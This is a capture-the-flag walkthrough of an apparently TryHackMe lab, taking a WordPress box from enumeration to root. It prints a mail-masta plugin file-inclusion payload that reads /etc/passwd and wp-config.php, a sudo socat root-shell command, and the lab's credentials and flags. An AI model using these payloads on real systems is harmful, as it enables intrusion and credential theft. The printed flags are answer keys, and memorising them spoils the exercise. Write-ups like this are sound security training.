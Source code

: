 > All In Oe 

**export IP=10.10.155.57**

## Enumerating

# Nmap

sudo nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.107.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

# Gobuster

sudo gobuster dir -u http://10.10.155.57 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,js,html,sql,bak,cgi,zip -o gobuster/initial

```
/wordpress (Status: 301)
/hackathons (Status: 200)
```

sudo gobuster dir -u http://$IP/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,sql,bak,zip,tar,cgi -o gobuster/wordpress

```
/index.php (Status: 301)
/wp-content (Status: 301)
/wp-login.php (Status: 200)
/license.txt (Status: 200)
/wp-includes (Status: 301)
/wp-trackback.php (Status: 200)
/wp-admin (Status: 301)
```

# wpscan

wpscan --url http://10.10.155.57/wordpress -e u | tee wp_users


```
[+] elyana
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.155.57/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

wpscan --url http://10.10.155.57/wordpress -e ap | tee wp_plugins


```
[+] mail-masta
 | Location: http://10.10.155.57/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.155.57/wordpress/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.155.57/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://10.10.155.57/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2019-05-10T16:05:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.155.57/wordpress/wp-content/plugins/reflex-gallery/readme.txt
```

# hackathon's directory

Looking at the page-source we can see this.

```
Damn how much I hate the smell of <i>Vinegar </i> :/ !!! 

Dvc W@iyur@123 --> Cipher
KeepGoing --> Key
```

Looks like Viginere cipher. Let's decode it!!

And we got the clear text `Try H@ckme@123`

And looking at the plugin in searchsploit, we can find a sqli exploit.

## POC

http://10.10.208.160/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false sshd:x:112:65534::/run/sshd:/usr/sbin/nologin ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin 
```

Let's get the config file `wp-config.php` and get the password from it. 

We can't get the file as such, so let's convert it to base64 and get it.

curl http://10.10.208.160/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php | base64 -d > wp-config.php

We got the config file. We got elyana'e password `H@ckme@123`. We can sign-in to the wordpress account. Let's get a shell!

## Hint : Elyana's user password is hidden in the system. Find it ;)

# Enumeration Again

Let's run linpeas and see what we get. We got various things before that let's search for that password. 

find / -user elyana -type f 2>&1 | grep -v "Permission" | grep -v "No such"


```
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt => We got the creds.
```

`elyana`:`E@syR18ght` is the credential. And we are in as elyana!!

# user.txt

```
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```

# Privilege Escalation

sudo -l

```
User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
```

sudo socat stdin exec:/bin/sh

We are in as root!!

# root.txt

```
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```